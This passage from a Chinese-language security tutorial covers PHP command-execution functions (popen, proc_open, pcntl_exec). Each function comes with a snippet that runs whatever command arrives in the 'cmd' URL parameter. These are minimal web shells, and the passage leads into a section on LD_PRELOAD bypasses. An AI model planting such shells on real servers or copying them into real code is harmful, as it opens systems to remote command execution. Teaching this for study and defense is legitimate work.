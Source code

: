 command: 要执行的命令

mode: 打开文件的模式，r 或 w

使用 fgets() 或 fread() 读取文件内容，再用 echo、print_r() 打印

```php
<?php
$cmd = $_GET['cmd'];
$fp = popen($cmd, 'r');
while ($s=fgets($fp)) {
    echo $s;
}
```

### proc_open()

`proc_open(string $cmd, array $descriptorspec, array &$pipes, ?string $cwd = null, ?array $env = null, ?array $other_options = null): resource`

cmd: 要执行的命令

descritorspec: 数组，指定要打开的文件描述符，0=>标准输入，1=>标准输出，2=>标准错误

pipes: 数组，存储打开的文件描述符

```php
$cmd = $_GET['cmd'];
$descriptorspec = array(
    0 => array('pipe', 'r'),
    1 => array('pipe', 'w'),
    2 => array('file', '/tmp/error-output.txt', 'a')
);

$pipes = array();
$process = proc_open($cmd, $descriptorspec, $pipes);
echo stream_get_contents($pipes[1]);
fclose($pipes[1]);
proc_close($process);
```

### pcntl_exec()

`pcntl_exec(string $path, array $args = [], array $envs = []): void`

path: 必须是可执行文件的绝对路径或一个在第一行指定了一个可执行解释器的脚本（如#!/usr/bin/env php）。

args: 数组，参数列表

envs: 数组，环境变量

```php
<?php
$cmd = $_GET['cmd'];
pcntl_exec('/bin/sh', ['-c', $cmd], []);
```

## LD_PRELOAD 绕过
